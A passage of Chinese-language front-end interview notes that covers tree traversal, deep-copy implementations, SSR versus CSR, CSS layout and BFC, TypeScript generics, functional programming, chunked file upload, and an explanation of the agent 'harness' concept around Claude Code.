const tree = {
  val: 'A',
  children: [
    {
      val: 'B',
      children: [
        { val: 'D' } // B 的子节点
      ]
    },
    { val: 'C' } // A 的另一个子节点
  ]
}


// 调用 DFS
dfs(tree)

// 输出顺序：A → B → D → C
// 过程：
// 先访问 A
// → 进入 B
// → 进入 D（最深）
// → 回到 B（无兄弟）
// → 回到 A，再访问 C
```

广度优先遍历（BFS）本质就是层序遍历 👍

// 广度优先遍历（BFS）- 使用队列
function bfs(root) {
  // 1. 边界判断
  if (!root) return

  const queue = [root] // 初始化队列（先进先出）

  // 2. 队列不为空就一直遍历
  while (queue.length) {
    const node = queue.shift() // 取出当前层第一个节点

    console.log(node.val) // 访问节点

    // 3. 把子节点依次加入队列（保证按层顺序）
    node.children?.forEach(child => {
      queue.push(child)
    })
  }
}

// 示例树
const tree = {
  val: 'A',
  children: [
    {
      val: 'B',
      children: [{ val: 'D' }]
    },
    { val: 'C' }
  ]
}

// 调用
bfs(tree)

// 输出：A → B → C → D
// 过程：
// 第1层：A
// 第2层：B, C
// 第3层：D

## 深拷贝和浅拷贝，如何实现深拷贝

- 浅拷贝


创建一个新对象，这个对象有着原始对象属性值的一份精确拷贝。如果属性是基本类型，拷贝的就是基本类型的值，如果属性是引用类型，拷贝的就是内存地址 ，所以如果其中一个对象改变了这个地址，就会影响到另一个对象。

Array.prototype.concat()
const arr = [1, 2, { a: 3 }];
const newArr = arr.concat();

newArr[0] = 99;       // 基本类型改不动原数组
newArr[2].a = 100;    // 引用类型会一起变

console.log(arr[2].a); // 100（浅拷贝，对象共享）

Array.prototype.slice()

const arr = [1, 2, { x: 10 }];
const newArr = arr.slice();

newArr[2].x = 20;
console.log(arr[2].x); // 20

const arr = [1, 2, { name: 'tom' }];
const newArr = [...arr];

newArr[2].name = 'jack';
console.log(arr[2].name); // jack

Object.assign()

const obj = { a: 1, b: { c: 2 } };
const newObj = Object.assign({}, obj);

newObj.b.c = 99;
console.log(obj.b.c); // 99

对象展开运算符 ...
const obj = { name: 'aa', info: { age: 18 } };
const newObj = { ...obj };

newObj.info.age = 20;
console.log(obj.info.age); // 20

数组 map（也是浅拷贝）

const arr = [1, 2, { val: 3 }];
const newArr = arr.map(item => item);

newArr[2].val = 100;
console.log(arr[2].val); // 100

浅拷贝 = 只复制第一层，深层引用类型依然共用同一个地址。

- 深拷贝


将一个对象从内存中完整的拷贝一份出来,从堆内存中开辟一个新的区域存放新对象,且修改新对象不会影响原对象


- 乞丐版
JSON.parse(JSON.stringify());

无法处理函数、undefined、Symbol 及 BigInt（直接丢失），将 Date 转为字符串、RegExp/Map/Set 转为空对象（类型丢失），不支持循环引用（直接报错），且会丢失原型链及不可枚举属性等多重致命缺陷

undefined 作为对象的属性值，该属性会被直接忽略（丢失）；如果作为数组的元素，则会被转换为 null


不可枚举属性
const arr = [1, 2, 3];

// length 是数组的属性，但它是不可枚举的
console.log(arr.length); // 输出: 3 (可以正常用)

// 遍历数组时，不会遍历出 'length'
for (let key in arr) {
  console.log(key); 
}
// 结果: 只打印 '0', '1', '2' (索引)，不会打印 'length'


const obj = { a: 1 };

// 定义一个不可枚举的属性 'b'
Object.defineProperty(obj, 'b', {
  value: 2,
  enumerable: false  // 设置为不可枚举
});


// 1. 定义一个类（构造函数）
function Person(name) {
  this.name = name;
}
// 2. 在原型上添加一个方法
Person.prototype.sayHello = function() {
  console.log(`你好，我是 ${this.name}`);
};

// 3. 创建一个实例
const original = new Person('张三');

// --- 使用 JSON 方法进行深拷贝 ---
const copy = JSON.parse(JSON.stringify(original));

// --- 结果对比 ---

// 1. 数据还在吗？在。
console.log(copy.name); 
// 输出: "张三"

// 2. 方法还在吗？不在了！
copy.sayHello(); 
// 报错: TypeError: copy.sayHello is not a function
// (因为 copy 变成了普通对象，找不到 sayHello 方法)

// 3. 身份还在吗？不在了！
console.log(copy instanceof Person); 
// 输出: false
// (copy 的构造函数变成了 Object，不再是 Person)

- 手动实现一个递归函数。思路很简单：判断数据类型，如果是对象，就新建一个空对象，遍历原对象的属性，递归地把属性值复制进去。

function deepClone(target) {
  if (typeof target !== 'object') {
    // 基本类型直接返回
    return target;
  }
  let cloneTarget = Array.isArray(target) ? [] : {}; // 兼容数组
  for (let key in target) {
    cloneTarget[key] = deepClone(target[key]);
  }
  return cloneTarget;
}

- 解决循环引用

- 性能优化 
  for...in，但其实它的效率比较低。

  while 循环的性能是最好的。所以我会把遍历方式优化为 while，或者使用 Object.keys 配合 forEach，这样能体现出我对代码性能的关注。”

- 全类型兼容
  Map、Set、Date、RegExp、Error，还有 Symbol 作为键的情况。

  /**
 * 深拷贝函数
 * @param {any} target - 需要被拷贝的目标对象
 * @param {WeakMap} map - 缓存容器，用于解决循环引用问题 (默认参数初始化)
 */
function deepClone(target, map = new WeakMap()) {
  // --- 1. 递归终止条件 (边界处理) ---
  // 判断逻辑：如果是 null 或者 非对象类型 (如 string, number, boolean, undefined, symbol)
  // 原理：基本数据类型是按值传递的，直接返回即可，不需要开辟新内存
  if (typeof target !== 'object' || target === null) {
    return target;
  }

  // --- 2. 解决循环引用 (核心亮点) ---
  // 场景：例如 obj.a = obj，如果不处理，递归会无限进行导致栈溢出 (Maximum call stack size exceeded)
  // 逻辑：在每次递归前，先检查 WeakMap 中是否已经存在当前对象的映射
  if (map.has(target)) {
    // 如果存在，说明之前已经拷贝过了，直接返回那个“旧”的拷贝对象
    // 作用：切断循环链条，复用已创建的内存地址
    return map.get(target);
  }

  // --- 3. 创建新容器 (初始化) ---
  // 兼容性处理：区分 数组 和 普通对象
  // 注意：这里只处理了最基础的两种类型。如果需要处理 Date/RegExp，需要在这里增加 instanceof 判断
  const cloneTarget = Array.isArray(target) ? [] : {};

  // --- 4. 建立映射关系 (关键步骤) ---
  // 动作：将 [原对象, 新对象] 的键值对存入 WeakMap
  // 为什么要在这里存，而不是递归结束后存？
  // 解释：必须在递归属性之前存入！因为如果当前对象包含自引用 (obj.self = obj)，
  // 递归调用 deepClone(obj.self) 时会再次进入这个函数，此时必须能立即从 map 中找到它，否则就会死循环。
  map.set(target, cloneTarget);

  // --- 5. 属性遍历与递归 (性能优化) ---
  // 为什么不使用 for...in？
  // 1. 性能：for...in 会遍历原型链上的属性，速度较慢。
  // 2. 安全性：for...in 需要配合 hasOwnProperty 使用，否则可能拷贝到原型的污染数据。
  // Object.keys 优势：只遍历对象自身的、可枚举的属性，性能更好，代码更干净。
  Object.keys(target).forEach(key => {
    // 递归调用：将当前属性的值传入，继续深拷贝
    // 注意：必须把 map 传递下去，保证整个递归过程共用同一个缓存容器
    cloneTarget[key] = deepClone(target[key], map);
  });

  // --- 6. 返回结果 ---
  return cloneTarget;
}

- 三数之和
思路
先排序，然后固定一个数，剩下的用双指针向中间逼近。
关键点：去重
题目要求不能有重复的三元组。因为数组已经排序了，重复的数字会挨在一起，所以去重很简单：
固定数去重：如果 nums[i] 和 nums[i-1] 一样，说明刚才已经算过这一轮了，直接 continue。
指针去重：当找到一组解后，移动 left 和 right 时，如果遇到和刚才一样的数字，继续跳过。
```
/**
 * @param {number[]} nums
 * @return {number[][]}
 */
var threeSum = function(nums) {
    const res = [];
    const len = nums.length;
    
    // 边界情况：数组为空或长度小于3，直接返回
    if (!nums || len < 3) return res;

    // 1. 排序：这是双指针策略的基础
    // 注意：JS默认sort是按字符编码排序，必须传入(a,b)=>a-b实现数值升序
    nums.sort((a, b) => a - b);

    // 2. 遍历固定第一个数
    for (let i = 0; i < len; i++) {
        const target = nums[i];

        // 【剪枝优化1】如果当前固定的数已经大于0，后面的数肯定都大于0，三数之和不可能为0
        if (target > 0) break;

        // 【去重核心1】如果当前数字和前一个数字相同，说明已经处理过以该数字开头的组合，跳过
        if (i > 0 && target === nums[i - 1]) continue;

        // 3. 双指针寻找另外两个数
        let left = i + 1;
        let right = len - 1;

        while (left < right) {
            const sum = target + nums[left] + nums[right];

            if (sum === 0) {
                // 找到答案
                res.push([target, nums[left], nums[right]]);

                // 【去重核心2 & 3】找到答案后，需要跳过左右指针指向的重复元素
                // 跳过左侧重复值
                while (left < right && nums[left] === nums[left + 1]) left++;
                // 跳过右侧重复值
                while (left < right && nums[right] === nums[right - 1]) right--;

                // 找到答案后，双指针同时收缩，继续寻找下一组
                left++;
                right--;
            } else if (sum < 0) {
                // 和太小，左指针右移（找更大的数）
                left++;
            } else {
                // 和太大，右指针左移（找更小的数）
                right--;
            }
        }
    }

    return res;
};
```


## 了解SSR吗？

- CSR 
    Client-Side Rendering
    是先返回一个空壳 HTML(#root)，由浏览器通过 JS 渲染页面。
    npm init vite 
    CSR 的原理是前端接管渲染流程(组件渲染在 客户端（即用户的浏览器） 完成)，优点是交互流畅（局部更新实现无刷新交互，避免了整页重载）、前后端分离，但缺点也明显：首屏加载慢（CSR 需下载解析 JS 并请求数据后渲染，过程串行阻塞，导致首屏白屏时间较长， 所以要路由懒加载）、SEO 不友好，因为初始 HTML 几乎没有内容。

    https://juejin.cn/post/7559385680842883099

- SSR
    SSR（Server-Side Rendering）是指React在服务器端将组件和数据渲染为完整HTML字符串后再返回给浏览器

    SSR 的核心逻辑是在服务器拿到数据后，直接生成包含内容的 HTML，再发送到客户端，客户端再进行 hydration（水合）（激活事件绑定）。这样做的最大优势是首屏直出，加载速度快，同时对搜索引擎友好。

    服务端生成的 HTML 虽然内容完整，但缺乏事件监听（如点击、输入）和组件状态。Hydration 就是让 React/Vue 等框架在客户端“接管”这些静态 DOM 节点，为其绑定事件处理程序并恢复应用状态，使页面从“只读”变为“可交互”。

    Hydration 的大白话原理

    就是浏览器拿着已有的 HTML，让 JS 重新跑一遍代码做对比，确认没毛病后，把点击事件贴上去。

    核心模块/功能
    复用 DOM：不重新画页面，直接利用服务器返回的现成 HTML。
    
    事件绑定：给静态标签挂上点击、输入等交互功能。

    SSR 本质上解决的是首屏性能和 SEO 问题，但也带来服务器压力大、开发复杂度高的问题。

    场景上，CSR 更适合后台管理系统、强交互应用，IOS/Android 很多页面其实都是WebView, 不在乎SEO, 开发快速，兼容多平台；SSR 更适合内容型网站、电商、营销页等对首屏速度和 SEO 要求高的业务。


## 利用cursor vibe一个节点连线的项目 包含 登录系统

1. 逆向思维


## 常用布局

### BFC

BFC（Block Formatting Context，块级格式化上下文）是 CSS 中独立的布局区域，核心规则分「创建规则」「布局规则」「交互规则」三类

- 如何创建 BFC
满足以下任一条件，元素即建立新 BFC
1. 根元素（<html>）—— 页面默认根 BFC
2. 浮动元素：float: left/right（float: none 不算）
3. 绝对 / 固定 / 粘性定位：position: absolute/fixed/sticky
4. 行内块：display: inline-block
5. 表格相关：display: table-cell（表格单元格）、table-caption（表格标题）、匿名表格单元格
6. 溢出非可见：overflow: auto/hidden/scroll（overflow: visible 不触发）
7. 弹性 / 网格项：flex/inline-flex/grid/inline-grid

- BFC 内部的布局规则
  1. 垂直排列：BFC 内块级盒子从上到下依次垂直排列，无横向排列
  2. 边距折叠：相邻块级盒子的垂直 margin 会折叠（取最大值，非相加），仅同 BFC 内生效
  3. 触边对齐：每个盒子左外边缘（LTR 排版）紧贴 BFC 容器左边缘，即使有浮动也如此
  4. 独立计算：BFC 是独立渲染区域，内部布局不受外部影响，外部也不影响内部
- BFC 与外部的交互规则
  1. 包含内部浮动：BFC 会包裹所有内部浮动元素（解决父元素高度塌陷）
  2. 排除外部浮动：BFC 区域不与外部浮动元素重叠（实现两栏自适应，避免文字环绕）
  3. 抑制 margin 折叠：BFC 会阻止内部与外部的 margin 折叠，隔离内外布局


https://juejin.cn/post/6941206439624966152#heading-47

方法一：float + overflow（BFC 原理）

BFC 的区域不会与浮动元素（Float）的区域发生重叠。

浮动元素离开文档流， 本来左侧会贴着外层盒子的左侧， 但是overflow:hidden后， 该元素生成一个 BFC
会避开浮动元素占据的空间，不会像普通非 BFC 块级元素那样被浮动元素覆盖（文字环绕效果除外），从而实现了自适应宽度的两列布局。

不用bfc 行不行？ 
方法二： float + margin 
margin 让出位置

方法三：flex
BFC 
FFC 全称 Flex Formatting Context 
一维布局：FFC 沿主轴（flex-direction 定义）或交叉轴排列，而非 BFC 的垂直堆叠。
弹性伸缩：项目可通过 flex 属性自适应分配剩余空间，BFC 无此能力。

方法四：grid
网格布局

### 三栏布局
专栏在前
方法一：圣杯布局
父容器留白，中间栏占满宽度，左右栏通过负边距和相对定位，嵌入父容器的留白区域。

### 双飞翼布局
给中间栏套个内层容器并设左右外边距，左右栏用负边距拉上来，正好嵌进内层容器的留白区域。

### 方法三：float + overflow（BFC 原理）
BFC 区域不会与浮动元素的盒子重叠。

### 方法四：flex


### 方法五：grid

## 你觉得typescript解决了什么问题?你觉得它用什么方式解决的？

面试官想考察你是否真正理解 TypeScript 的“存在意义 + 工程价值”，以及你有没有“大型项目视角”。

一、先从 JS 的缺点切入

我觉得 TypeScript 本质是在解决 JavaScript 在大型工程化场景下的“不可控性”问题”。

1. 动态类型 → 运行时风险高
```
function add(a, b) {
  return a + b;
}

add(1, "2");
```
类型不确定
bug 在运行时才暴露
难以测试覆盖所有分支

2. 接口不清晰 → 协作困难
function createUser(user) {
  // user 到底有什么字段？不清楚
}

靠文档/口头约定

3. 大型项目可维护性差

重构困难（不敢删代码）
IDE 无法准确提示
隐式依赖多


TS 是怎么解决的

TypeScript 通过静态类型系统 + 编译期检查，把问题从运行时提前到开发阶段。

1. 静态类型检查（核心能力）

function add(a: number, b: number): number {
  return a + b;
}

add(1, "2");

提前发现错误
降低线上事故

2. 类型即文档（非常加分点）

interface User {
  id: number;
  name: string;
  age?: number;
}

function createUser(user: User) {}


不需要额外文档
IDE 自动提示
降低沟通成本

3. 强大的类型表达能力（重点说）
TS 不只是“加类型”，而是：

泛型
联合类型
条件类型
映射类型

type ApiResponse<T> = {
  code: number;
  data: T;
  message: string;
};


类型可以复用
可以描述复杂数据结构

4. 重构友好（工程价值）

interface User {
  name: string;
}

// 改字段
interface User {
  username: string;
}

全局报错提醒
精准定位影响范围


三、结合“大型项目”

在大型项目（比如上万行代码、多人协作）中，TypeScript 的价值会被放大。

claude code 几十万行ts 代码

react, vue 都是ts 写的

nest.js 原生ts

### 缺点

增加开发成本
类型设计复杂度高
学习曲线陡峭

### 总结
TypeScript 主要解决的是 JavaScript 在大型项目中的不可控问题，比如动态类型导致的运行时错误、接口不清晰带来的协作成本、以及重构困难等。
它通过静态类型系统，在编译阶段做类型检查，把错误前置，同时用类型来约束数据结构，相当于“类型即文档”。
在大型项目中，比如 AI Agent 这种复杂系统，TS 可以保证模块之间的接口一致性，提高可维护性和开发效率。
本质上我觉得 TS 是在 JavaScript 之上增加了一层工程化约束，让代码更可靠、更可维护。


## 泛型解决了什么问题?你觉得它具体用了哪种思想?

我觉得泛型本质是在解决“类型不确定但逻辑一致”的问题

```
没有泛型
function getNumber(arr: number[]): number {
  return arr[0];
}

function getString(arr: string[]): string {
  return arr[0];
}
```
逻辑完全一样
但要写很多份
扩展性极差

二、泛型怎么解决（第一层理解
```
function getFirst<T>(arr: T[]): T {
  return arr[0];
}
```
泛型就是：把“类型”当参数传进去。

泛型其实是一种“类型层面的抽象”，就像函数参数是对“值”的抽象，泛型是对“类型”的抽象。

- 实际工程场景
场景 1：API 封装

```
type ApiResponse<T> = {
  code: number;
  data: T;
};
```
不同接口复用结构
类型安全

场景 2：React（非常常见）
function useState<T>(initial: T): [T, (v: T) => void]

泛型保证：

state 类型一致
setState 不会乱传

场景 3：工具函数

function merge<T, U>(a: T, b: U): T & U {
  return { ...a, ...b };
}

使用到的思想

- 抽象
  泛型本质是对“类型”的抽象。
- 参数化思想
  泛型其实是“参数化类型”，也就是把类型当成参数传入。
- 多态
  泛型体现的是“参数化多态”，也就是同一套代码可以适用于多种类型，而不需要为每种类型写不同实现
- 类型约束思想
  function getValue<T, K extends keyof T>(obj: T, key: K): T[K] {
    return obj[key];
  }
  K extends keyof T 表示K 必须是 T 类型对象上已存在的键名，用来约束 key 只能传对象真实拥有的属性。
- 类型关系表达
  泛型真正强大的地方在于，它不仅能表示“一个类型”，还能表达“多个类型之间的关系”。

### 总结
我觉得泛型主要体现了参数化多态的思想，本质是对类型的一种抽象。
就像函数参数是对值的抽象，泛型是对类型的抽象，把类型当成参数传入，从而让同一套逻辑可以适用于多种类型。
同时它还支持类型约束，比如通过 extends 可以限制类型范围，保证类型之间的关系是正确的。
和传统继承多态不同，泛型是“同一实现适配多种类型”，而不是不同类型写不同实现。
这个思想在 C++ 的 template 中也有体现，只不过 TypeScript 是在类型系统层面做约束，而不是生成实际代码。

## 介绍一下你对函数式编程的认识

函数是一等对象，指的是函数可以像普通值一样被传递、赋值、作为参数或返回值（高阶函数）使用。
闭包是函数 + 其词法作用域的组合，使函数可以“记住”并访问定义时的变量。在数据封装（私有变量）、防抖 / 节流、记忆函数、函数柯里化等
es6 map, reduce filter等也是函数式编程思想

但这些只是函数式编程的基础

函数式编程本质是一种“以函数为核心、强调数据不可变和无副作用”的编程范式，它通过组合小函数来构建复杂逻辑。


关键词先抛出来：

纯函数
不可变数据
函数组合

1. 纯函数（最核心）

👉 定义：

相同输入一定得到相同输出，并且没有副作用。

let count = 0;

function add() {
  count++;
}

依赖外部状态
不可预测

纯函数
function add(a, b) {
  return a + b;
}
纯函数更容易测试、复用和推导，这也是 React 渲染逻辑强调纯函数的原因。

2. 不可变数据（Immutable）
核心思想：

不修改原数据，而是返回新数据。
可变写法
arr.push(4);

函数式写法
const newArr = [...arr, 4];

价值：

避免副作用
更容易做状态对比（React diff）

函数组合（Composition）

👉 用小函数拼装复杂逻辑

示例（ES6 + reduce）
const compose = (...fns) => (x) =>
  fns.reduceRight((val, fn) => fn(val), x);

const add1 = x => x + 1;
const mul2 = x => x * 2;

compose(mul2, add1)(3); // (3+1)*2 = 8

reduce 在函数式里本质是“把一组操作折叠成一个结果”。

React 本质是函数式 UI

React 的函数组件本质就是一个纯函数：输入 props，输出 UI。

function Button({ text }) {
  return <button>{text}</button>;
}

Hooks 是函数式思想的体现

👉 关键点：

Hooks 通过函数组合来复用状态逻辑，而不是通过 class 继承

function useCounter() {
  const [count, setCount] = useState(0);
  return { count, setCount };
}

把逻辑拆成函数
再组合使用

不可变数据在 React 中的作用

setState(prev => ({ ...prev, count: prev.count + 1 }));

React 依赖引用变化来做 diff，不可变数据可以让更新更可预测。

四、原生 JS 场景（必须覆盖）

const sum = arr.reduce((acc, cur) => acc + cur, 0);

reduce 本质是一个高阶函数，可以把集合“归约”为一个值，是函数式编程中非常核心的工具。

map / filter

arr.map(x => x * 2).filter(x => x > 5);

无副作用
链式调用
声明式编程（描述“做什么”，而不是“怎么做” 命令式）

后端视角（加分项）

你可以补一句👇

在后端函数式编程也很常见，比如 Node.js 中的中间件机制，本质就是函数组合。

## 总结

我理解函数式编程是一种以函数为核心的编程范式，核心思想包括纯函数、不可变数据和函数组合。
纯函数保证相同输入得到相同输出，避免副作用；不可变数据让状态变化更可预测；函数组合则通过拼装小函数来构建复杂逻辑。
在 React 中，这种思想体现得很明显，比如函数组件本质是纯函数，Hooks 通过函数组合复用逻辑，同时依赖不可变数据来做高效更新。
在原生 JS 中，像 map、filter、reduce 也是典型的函数式写法，而在后端中间件机制中，本质也是函数组合。
我觉得函数式编程的核心价值在于让代码更可预测、更易维护，同时提升复用性。


和闭包是 JavaScript 的核心语言特性，它们让函数可以像值一样传递和组合，同时闭包可以让函数持有状态。
这些能力是函数式编程的基础，比如高阶函数、函数组合、Hooks 本质上都依赖这些特性。
但严格来说，它们不等同于函数式编程，函数式编程更强调的是纯函数、不可变数据和无副作用。
可以理解为，这些是“工具”，而函数式编程是一种“使用这些工具的编程思想”。

## 组件库用过什么？ 自己封装过吗?

面试官想听啥？
UI 体系的理解 + 工程化能力 + 选型能力

- UI 组件库在项目中的地位
在前端项目里，UI 组件库其实是非常核心的一层，它不仅决定了页面的开发效率，还直接影响整体的设计一致性、可维护性以及用户体验。
一个成熟的组件库可以帮我们减少大量重复开发，同时在交互规范、视觉规范上提供统一标准。

- 在实际项目中，我主要使用的是 ShadCN
它和传统组件库最大的不同是，它不是黑盒组件，而是可复制源码的组件方案，这一点对工程非常友好。
npx shadcn@latest add card
components/ui/card/card.tsx
  - 每个组件都是源码级别的，可以按需修改，而不是被组件库限制。
  - 它基于 Tailwind CSS，样式是原子化的，在做定制 UI 或响应式适配时非常灵活。
  - 在需要品牌化 UI 或设计系统的项目中，比传统组件库更容易做二次封装。

- 在后台管理系统中，我更多会使用 Ant Design 这类成熟组件库。
  - 企业级后台标准
  Ant Design 提供了非常完整的组件体系，比如表格、表单、权限控制相关 UI，适合中后台开发。
  - 开箱即用 + 规范完善
  它内置了很多设计规范，可以快速搭建 CRUD 系统。
  - 生态成熟

- 图标库
  lucide-react

- 动画库 Framer Motion

## 大文件上传

大文件上传我一般会做成“切片上传方案”。首先用 Blob.slice 把文件拆成多个 chunk，然后基于 HTTP/2 / HTTP/3 的多路复用能力并发上传，提高带宽利用率。

同时会计算文件 hash 作为唯一标识，用于实现秒传和断点续传：上传前先和服务端对比已有分片，只上传缺失部分。

上传过程中会做并发控制和失败重试，避免请求过多或局部失败影响整体。最后由服务端按顺序合并切片。

整体就是把上传过程做成一个“可并发、可恢复、可校验”的系统，提高稳定性和用户体验。

https://juejin.cn/post/7385098943942934582?searchId=20260409102233A4A0CBAB494B136C0794#heading-25

## harness

- Claude Code 是 Anthropic 推出的命令行编程Agent，优点是可直接在终端中高效生成和修改代码、上下文理解强、适合复杂项目开发。

Claude Code 比cursor 更懂功能， 为什么这么说呢？
也是 规范驱动编程  CLAUDE.md 技术栈啥的， 配 Skills， 加MCP，但更强。  答案藏在一个词里：Harness。

Claude Code serves as the agentic harness around Claude: it provides the tools, context management, and execution environment that turn a language model into a capable coding agent.

Claude Code 是一个智能体编排框架，包裹在 Claude 模型外面。它提供工具、上下文管理和执行环境，把一个语言模型变成一个有能力的编码 Agent。

### 什么是harness?


Harness 像“缰绳”，让大模型可控执行任务，提升安全性、稳定性与工程落地能力。

定义里有三个关键词，工具、上下文管理、执行环境。模型本身只会生成文本。是 Harness 给了它读文件的能力、写代码的能力、搜索代码库的能力、在终端执行命令的能力。没有 Harness，Claude 就是一个只会说话的大脑——有智力，没有手脚。


Agent Harness = 包裹 LLM 的运行时基础设施，管理工具调度、上下文工程、安全执行、状态持久化和会话连续性。LLM 只负责推理决策。2026 年的关键洞察：竞争差异化的重心已从 Model 转移到 Harness。

Agent = Model + Harness。

图中最核心的位置是  Model——那个蓝色芯片图标，代表 Claude 的大语言模型。但模型本身只是一个推理引擎，它不能独立行动。

真正让它变成 Agent 的，是包裹在它周围的五个 Harness 组件。

Tools（工具），模型的手脚。Read、Write、Edit、Bash、Grep……这些工具赋予模型与文件系统、终端、网络交互的能力。没有工具，模型只能说，不能做。

Context（上下文），模型的记忆加载器。CLAUDE.md、系统提示词、对话历史、工具定义——这些上下文在每一轮循环中被注入模型，决定了模型看到什么、知道什么。上下文管理的精妙之处是，它不仅是被动的信息传递，还包括主动的压缩和重注入策略。

Memory（记忆），模型的长期存储。跨会话的记忆持久化，让模型能“记住”你的偏好、项目规则和历史决策。CLAUDE.md 是显式记忆，自动记忆（~/.claude/memory/）是隐式记忆。没有 Memory，每次对话都从零开始。

Hooks（钩子），模型的神经反射。事件驱动的自动化机制，在工具执行前后触发自定义逻辑。比如每次保存文件前自动格式化，每次提交前自动运行 lint。Hooks 让 Harness 有了“条件反射”的能力——不需要模型主动决策，某些行为会自动发生。

回家先洗手、睡前刷牙，这些都是固定触发的习惯动作

Permissions（权限）——模型的安全围栏。哪些工具可以自由使用，哪些需要人工审批，哪些完全禁止——权限系统是 Harness 的安全底线。它解决了一个核心矛盾：你希望 Agent 足够自主以提高效率，但又不希望它自主到失控。


Model 在中心，五个组件围绕它排列，整体被一个名为 Harness 的边框包裹。这不是随意的布局，它精确表达了一个架构事实：模型不直接接触外部世界，所有交互都通过 Harness 的组件中转。Harness 是模型和现实之间的唯一接口。

这五个组件也不是孤立的。Tools 的执行结果变成 Context 的一部分；Hooks 在 Tools 执行前后触发；Permissions 决定哪些 Tools 可以被调用；Memory 用于跨会话保留 Context 中的关键信息。它们构成了一个协同运转的系统，少了任何一个，Agent 的能力都会大打折扣。


Agentic Loop——Harness 的心脏如果 Harness 是一台机器，Agentic Loop 就是它的发动机。整个 Claude Code 的运转，归根到底就是一个循环：


关键点在于步骤 ② 和步骤 ④  之间的循环。模型不是一次性给出最终答案的。它可能先读一个文件，看完结果后决定再搜索一下，搜索完又决定编辑某行代码，编辑完再运行测试——每一步都是一次循环。一个复杂任务可能跑几十轮循环。循环什么时候结束？满足下面两个条件之一即可：模型主动停止——Claude 认为任务完成，生成纯文本回复，不再请求工具调用。API 返回  stop_reason: "end_turn"。达到最大轮次——Harness 设置了  --max-turns  限制，防止无限循环。


内置工具——Harness 的手脚Agentic Loop 是引擎，工具是车轮。Claude Code 内置了 20+ 个左右的工具，覆盖了软件工程的五个原子操作。

工具设计背后有一个深刻的哲学，少而精。Claude Code 没有内置重构工具、测试工具、部署工具……它只给了最基础的原语。重构是 Read + Edit + Bash 的组合涌现；测试是 Bash + Read 的组合涌现；部署还是 Bash。这就像计算机只需要几条指令就能图灵完备一样。Harness 不需要为每种场景造一个工具，它只需要确保基础工具的组合空间足够大。但 Bash 是个例外。Bash 工具是一个图灵完备的逃逸舱。通过它，Claude 可以执行任何 Shell 命令：安装依赖、运行测试、调用 API、操作数据库。这意味着 Claude Code 的能力上限，理论上等于操作系统的能力上限。这也是为什么 Harness 需要权限控制的原因。


上下文管理——被忽视的关键能力大多数人讨论 Agent 框架时，只关心工具和循环。但 Harness 最精巧的部分，其实是上下文管理。Claude 的上下文窗口是有限的（200K tokens）。一个真实的编码任务——读 20 个文件、搜索 50 次、执行 30 条命令——产生的对话历史会迅速膨胀到几十万 tokens。如果不管理，要么爆掉上下文窗口，要么模型开始“遗忘”早期信息。Claude Code 的解决方案是自动压缩。当对话历史接近上下文窗口的 92% 时，Harness 会触发一次压缩操作：

对话历史（180K tokens）
    │
    ▼ 压缩触发
┌────────────────────────────┐
│ 保留：最近的消息（完整）      │
│ 压缩：早期消息 → 摘要        │
│ 重注入：CLAUDE.md 内容       │
│ 重注入：系统提示词            │
│ 重注入：工具定义              │
└────────────────────────────┘
    │
    ▼
压缩后对话历史（~80K tokens）
    │
    ▼ 继续工作

注意最后三行，CLAUDE.md、系统提示词、工具定义在每次压缩后都会重新注入。这意味着即使对话历史被截断了，模型仍然知道项目的规则、自己有哪些工具、应该遵循什么约定。这就是为什么你在 CLAUDE.md 里写的东西那么“持久”——不是因为模型记住了它，而是 Harness 在每次压缩后都重新塞给模型。


为什么 2026 年是 Harness 之年？2025 年的关键词是 Agent。2026 年的关键词是  Agent Harness。为什么？因为行业已经意识到。模型本身正在商品化——Claude、GPT、Gemini、DeepSeek 的能力差距在缩小。但同一个模型在不同 Harness 中的表现差距，远大于不同模型在同一个 Harness 中的差距。换句话说，Harness 比模型更重要。这不是我的臆断。有几个数据点足以佐证：Claude Code 在 2025 年 11 月达到  10 亿美元年化收入——这是一个 Harness 产品的收入，不是模型本身的收入。Anthropic 在 2026 年 3 月收购了  Bun（JavaScript 运行时），明确表示要加强 Claude Code 的基础设施。收购一个运行时来加强一个 Harness——这说明 Anthropic 把 Harness 视为战略级资产。开源社区出现了“Agent Harness“作为独立品类。GitHub 上以 “harness” 为关键词的新仓库数量在 2026 年 Q1 翻了三倍。对于我们开发者来说，这意味着什么？理解 Harness 比理解模型更重要。模型的能力由 Anthropic/OpenAI 决定，你无法改变。但 Harness 的配置——CLAUDE.md 怎么写、工具权限怎么设、Hooks 怎么接、MCP 怎么连——这些全在你手中。你前面学的每一讲，本质上都是在调教 Harness。


动手验证：感受 Harness 的存在最后来一个非常简单的实验，只是感受 Harness 的作用（其实我们每天都在感受着这种不同）。用裸 API 和 Claude Code 分别执行同一个任务：# 方式一：裸 API 调用（没有 Harness）- 你可以换成Deepseek或GPT等任何模型curl https://api.anthropic.com/v1/messages \ -H "x-api-key: $ANTHROPIC_API_KEY" \ -H "content-type: application/json" \ -H "anthropic-version: 2023-06-01" \ -d '{ "model": "claude-sonnet-4-6-20260320", "max_tokens": 1024, "messages": [{"role":"user","content":"找出当前目录下所有 TODO 注释并列出文件名和行号"}] }'# 方式二：通过 Harness（Claude Code）claude -p "找出当前目录下所有 TODO 注释并列出文件名和行号" --output-format text裸 API 会怎么回答？它会告诉你“你可以用 grep 命令来搜索”——因为它没有手脚，只能说。Claude Code 会怎么做？它会直接执行  Grep  工具搜索 TODO，然后返回完整的文件名、行号和上下文——因为 Harness 给了它行动的能力。同一个大脑，有没有 Harness，结果天壤之别。


总结一下这一讲我们从底层理解了 Claude Code 的真实身份——它是一个  Harness，一个包裹在 Claude 模型外面的智能体编排框架。我们再回顾一下核心要点。1.Harness = 工具 + 上下文管理 + 执行环境 + 权限控制。它把模型的智力转化为行动力。2.Agentic Loop 是 Harness 的心脏。“推理 → 工具调用 → 结果回注 → 继续推理”的循环是所有复杂行为的涌现基础。3.20+ 个内置工具覆盖 5 个原子操作（读、写、执行、联网、编排）。少而精的设计让组合空间最大化。4.上下文管理是被低估的关键能力。自动压缩 + CLAUDE.md 重注入，确保模型在长任务中不丢失关键信息。5.Claude Code 不是开源软件。核心 Harness 代码以编译后的 npm 包分发。Agent SDK 提供了可编程的 Harness 接口。6.2026 年是 Harness 之年。同一模型在不同 Harness 中的表现差距，大于不同模型在同一 Harness 中的差距。因此理解 Harness 比理解模型更重要。


## 手写ts的pick
工具类型 
为了避免重复定义相似的类型，让你能基于一个已有的类型，像搭积木一样快速“改造”出新的类型。

Pick 从类型里挑选部分字段
Omit：从类型里排除某些字段
Partial：把所有字段变成可选

```
interface User {
  id: number
  name: string
